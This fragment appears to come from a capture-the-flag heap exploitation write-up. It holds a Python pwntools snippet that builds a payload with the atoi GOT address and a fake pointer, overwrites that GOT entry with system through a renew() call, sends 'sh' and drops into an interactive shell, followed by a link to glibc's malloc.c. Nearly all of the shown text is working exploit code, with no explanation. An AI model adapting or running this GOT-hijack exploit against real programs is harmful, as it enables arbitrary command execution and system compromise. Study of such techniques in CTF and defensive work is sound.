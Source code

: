 ```python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0)
payload += p32(1)*3
renew('small',payload)

renew('big', p64(system)) # GOT hijack

r.recv()
r.sendline('sh\x00')

r.interactive()
```

[secret]: https://github.com/lattera/glibc/blob/master/malloc/malloc.c#L3397
